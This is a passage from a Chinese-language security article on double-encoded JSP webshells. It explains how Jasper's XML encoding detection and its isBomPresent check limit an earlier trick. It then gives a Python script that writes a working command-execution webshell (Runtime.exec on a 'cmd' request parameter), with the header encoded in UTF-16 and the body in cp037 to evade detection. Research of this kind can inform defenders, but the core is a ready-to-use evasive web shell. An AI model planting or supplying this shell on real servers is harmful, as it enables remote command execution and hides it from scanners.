 [![5.png](assets/1698894037-2b0ed21b38bada7c84f99a537cbf3158.png)](https://storage.tttang.com/media/attachment/2022/11/23/b76c871e-7e9f-48d0-aba8-7b43596353db.png)  
第三种  
[![9.png](assets/1698894037-f8d91c51b9de0c580ca2ef3acad0886e.png)](https://storage.tttang.com/media/attachment/2022/11/23/4bcf41c8-cad0-45d7-832f-9007e472644d.png)

#### [为什么上面这个有一定局限性现](#toc__4)

实际上如果你认真看了上面的代码你会发现决定具体代码逻辑是否能走到这一步和`isBomPresent`的值密不可分，我们也说到了只有文件前四个字节无法与`org.apache.jasper.xmlparser.XMLEncodingDetector#getEncodingName`这个方法中某个编码匹配，之后假定 XML 文挡采用 UTF-8 编码，最终才能保证`isBomPresent`为 false，因此这种利用的局限性在于文件头只能是 utf8 格式才能保证代码逻辑的正确执行

#### [更灵活的双编码 jspwebshell](#toc_jspwebshell)

根据我们前面的分析，下面这种方式实现双编码会更灵活，可以更多样地选择双编码间的组合

这里简单写个 python 生成一个即可作为演示

```plain
a0 = '''<?xml version="1.0" encoding='cp037'?>'''
a1 = '''
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
String line = "";
while ((line = input.readLine()) != null) {
  out.write(line+"\\n");
}
</jsp:scriptlet>
    <jsp:text>
    </jsp:text>
</jsp:root>'''

with open("test.jsp","wb") as f:
    f.write(a0.encode("utf-16"))
    f.write(a1.encode("cp037"))
```
